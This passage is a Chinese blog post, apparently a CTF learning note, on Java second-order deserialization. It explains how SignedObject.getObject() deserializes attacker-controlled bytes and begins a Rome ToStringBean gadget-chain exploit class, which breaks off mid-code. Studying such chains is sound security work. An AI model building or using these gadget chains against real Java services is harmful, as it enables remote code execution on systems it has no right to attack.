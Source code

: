title: java二次反序列化初探
author: bmth
tags:
  - 反序列化
categories:
  - java
top_img: 'https://img-blog.csdnimg.cn/7a17529ed4ae47098123f77824978b74.png'
cover: 'https://img-blog.csdnimg.cn/7a17529ed4ae47098123f77824978b74.png'
date: 2022-09-20 23:10:00
---
![](https://img-blog.csdnimg.cn/7a17529ed4ae47098123f77824978b74.png)

## 前置知识
ctf的题目越来越难了，java的考点也更多更复杂，这里就学习一下二次反序列化
### SignedObject
它是java.security下一个用于创建真实运行时对象的类，更具体地说，SignedObject包含另一个Serializable对象

看一下它的`getObject()`方法，是一个反序列化，并且该方法还是getter
![](https://img-blog.csdnimg.cn/be5ca3e27786411ebef69abd8260b7cf.png)

并且发现反序列化内容是可控的

![](https://img-blog.csdnimg.cn/d7d0ba45a9d04a9999038b2b0e902dc3.png)

**这里可以看到content是一个byte型数组`private byte[] content;`**
那么思路就很简单了，先构造一个恶意SignedObject
```java
KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
kpg.initialize(1024);
KeyPair kp = kpg.generateKeyPair();
SignedObject signedObject = new SignedObject(恶意对象 用于第二次反序列化, kp.getPrivate(), Signature.getInstance("DSA"));
```
然后调用它的getObject()方法即可，现在就需要找到调用到getObject()的链

#### Rome
在rome链中，我们知道`EqualsBean/ToStringBean`这两个类最终会触发getter，这里直接给出Poria师傅的代码
##### ToStringBean
利用 HashMap 反序列化调用 ObjectBean 的 hashCode 方法，再调用 ObjectBean 封装的 ToStringBean 的 toString 方法，最后触发 getter 方法
```java
import CommonsCollections.Evil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.*;
import java.util.Base64;
import java.util.HashMap;

public class RomeToStringBean {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
```